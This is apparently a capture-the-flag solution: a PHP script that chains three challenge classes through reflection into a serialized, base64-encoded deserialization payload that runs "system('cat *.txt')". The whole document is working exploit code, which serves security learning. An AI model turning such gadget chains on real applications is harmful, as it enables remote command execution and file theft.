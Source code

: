 # Solution

---

## Approach 1 (Credit to H0j3n)

```php
<?php
require("vendor/autoload.php");

$gadgetOne = new \GadgetOne\Adders(1);
$gadgetTwo = new \GadgetTwo\Echoers();
$gadgetThree = new \GadgetThree\Vuln();

// Setup GadgeThree == Setup Vuln with RCE
// __toString() == Need to trigger this with echo (Can only be found in Echoers.php)
// get an Vuln class instance
$vuln = new \GadgetThree\Vuln();
$reflection = new \ReflectionClass($gadgetThree);
$property = $reflection->getProperty('waf1');
$property->setAccessible(true);
$property->setValue($vuln, 1);
$property = $reflection->getProperty('waf2');
$property->setAccessible(true);
$property->setValue($vuln, "\xde\xad\xbe\xef");
$property = $reflection->getProperty('waf3');
$property->setAccessible(true);
$property->setValue($vuln, false);
$property = $reflection->getProperty('cmd');
$property->setAccessible(true);
$property->setValue($vuln, "system('cat *.txt');");

// Setup GadgetOne == set x = Vuln()
// __construct($x) == Can easily set x = Vuln()
// get a Adders class instance
$adders = new \GadgetOne\Adders(1);
$reflection = new \ReflectionClass($gadgetOne);
$property = $reflection->getProperty('x');
$property->setAccessible(true);
$property->setValue($adders, $vuln);

// Setup GadgetTwo
// __destruct() == Trigger if exception or exit
// We can try to set klass with GadgetOne value contains our RCE payload
// get Echoers class instance
$echoers = new \GadgetTwo\Echoers();
$reflection = new \ReflectionClass($gadgetTwo);
$property = $reflection->getProperty('klass');
$property->setAccessible(true);
$property->setValue($echoers, $adders);

$serialized = serialize($echoers);

echo base64_encode($serialized);

echo "\n";

?>
```
